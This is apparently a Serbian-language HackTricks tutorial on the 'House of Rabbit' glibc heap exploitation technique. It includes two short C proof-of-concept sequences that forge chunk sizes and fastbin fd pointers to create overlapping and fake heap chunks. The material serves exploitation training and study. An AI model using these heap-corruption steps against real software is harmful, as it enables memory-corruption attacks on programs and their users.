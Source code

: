 # Kuća Zeca

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Obuka AWS Crveni Tim Stručnjak (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Obuka GCP Crveni Tim Stručnjak (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

### Zahtevi

1. **Sposobnost modifikacije pokazivača fd brze binarne ili veličine**: To znači da možete promeniti pokazivač napred jednog bloka u brzoj binarnoj ili njegovu veličinu.
2. **Sposobnost pokretanja `malloc_consolidate`**: Ovo se može postići ili dodeljivanjem velikog bloka ili spajanjem vršnog bloka, što prisiljava hip da konsoliduje blokove.

### Ciljevi

1. **Stvaranje preklapajućih blokova**: Da bi jedan blok prekrio drugi, omogućavajući dalje manipulacije hipom.
2. **Lažiranje lažnih blokova**: Da bi se varalica ubedio da tretira lažni blok kao legitimni blok tokom operacija hipa.

## Koraci napada

### POC 1: Modifikacija veličine brze binarne jedinice

**Cilj**: Stvaranje preklapajućeg bloka manipulacijom veličine brze binarne jedinice.

* **Korak 1: Dodela Blokova**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Korak 2: Oslobađanje delova**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **Korak 3: Izmena Veličine Čunka**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **Korak 4: Izazovite `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Alociranje velikog bloka pokreće funkciju `malloc_consolidate`, spajajući male blokove u brzom binu. Manipulisana veličina `chunk1` uzrokuje preklapanje sa `chunk2`.

Nakon konsolidacije, `chunk1` se preklapa sa `chunk2`, omogućavajući dalju eksploataciju.

### POC 2: Modifikacija `fd` pokazivača

**Cilj**: Kreiranje lažnog bloka manipulacijom brzog bin `fd` pokazivača.

* **Korak 1: Alociranje Blokova**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Objašnjenje**: Alociramo dva bloka, jedan manji i jedan veći, kako bismo postavili hip za lažni blok.

* **Korak 2: Kreiranje lažnog bloka**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Korak 3: Oslobodite `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Objašnjenje**: Oslobađamo `chunk1`, dodajući ga u listu fastbin.

* **Korak 4: Modifikujemo `fd` od `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Objašnjenje**: Menjamo pokazivač unapred (`fd`) `chunk1` da pokazuje na naš lažni blok unutar `chunk2`.

* **Korak 5: Pokretanje `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Alociranje velikog bloka ponovo pokreće `malloc_consolidate`, koji obrađuje lažni blok.

Lažni blok postaje deo liste brzih binova, čineći ga legitimnim blokom za dalje iskorišćavanje.

### Rezime

Tehnika **House of Rabbit** uključuje ili modifikovanje veličine bloka brzih binova kako bi se stvorili preklapajući blokovi ili manipulisanje `fd` pokazivača kako bi se stvorili lažni blokovi. Ovo omogućava napadačima da falsifikuju legitimne blokove u hipu, omogućavajući različite oblike iskorišćavanja. Razumevanje i vežbanje ovih koraka će unaprediti vaše veštine iskorišćavanja hipa.
